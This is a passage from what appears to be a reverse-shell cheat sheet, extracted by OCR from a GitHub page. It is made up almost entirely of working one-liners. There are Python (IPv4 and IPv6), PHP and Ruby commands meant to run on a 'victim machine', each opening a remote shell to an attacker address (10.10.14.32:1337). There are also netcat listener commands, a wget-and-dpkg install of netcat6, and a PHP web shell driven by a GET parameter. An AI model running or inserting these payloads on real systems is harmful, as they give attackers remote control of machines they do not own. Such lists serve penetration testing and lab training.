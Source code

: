```bash 
nc -lvnp 1337

```

#### Python <a name='py'></a>
```bash
# on the victim machine
# IPv4 Connection: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{attacker IP}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

# IPv6 Connection: python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("{IPv6 attacker IP}",{port},0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",1337,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

# on the attacker machine
# 1.syntax: nc -lvnp {port}
nc -lvnp 1337

# 2.IPv6 Connection Listenting: wget http://ftp.cn.debian.org/debian/pool/main/n/nc6/netcat6_1.0-8_amd64.deb; dpkg -i ./netcat6_1.0-8_amd64.deb; netcat -6 -l {port}  
wget http://ftp.cn.debian.org/debian/pool/main/n/nc6/netcat6_1.0-8_amd64.deb; dpkg -i ./netcat6_1.0-8_amd64.deb; netcat -6 -l 1337
```

#### PHP <a name='php'></a>
```bash
# on the victim machine
# 1.syntax: php -r '$sock=fsockopen("{attacker IP}",{port});exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.14.32",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

# 2.syntax: php -r '$s=fsockopen("{attacker IP}",{port});$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
php -r '$s=fsockopen("10.10.14.32",1337);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'

# 3.Syntax: <?php system($_GET['wr3nch']); ?>
<php system($_GET['wr3nch']); >

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### Ruby <a name='rb'></a>
```bash
# on the victim machine
# 1.syntax: ruby -rsocket -e'f=TCPSocket.open("{attacker IP}",{port}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
ruby -rsocket -e'f=TCPSocket.open("10.10.14.32",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# 2.Windows Only Syntax: ruby -rsocket -e 'c=TCPSocket.new("{attacker IP}","{port}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'c=TCPSocket.new("10.10.14.32","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# on the attacker machine
```